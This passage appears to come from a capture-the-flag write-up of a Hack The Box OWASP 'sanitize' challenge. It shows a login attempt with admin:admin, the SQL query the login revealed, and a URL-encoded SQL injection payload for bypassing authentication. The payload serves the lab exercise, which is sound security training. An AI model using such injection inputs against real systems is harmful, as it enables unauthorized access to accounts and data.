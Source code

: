 Tried `admin:admin` and got this response:

![santize-1](/assets/ss-htb-owasp/sanitize/sanitize_2.jpg)

```sql
select * from users where username = 'admin' AND password = 'admin';
```

Hint to a SQL injection vulnerability. Do a simple test:

```http
username=admin&password=admin'+OR+1%3d%3d1--
```
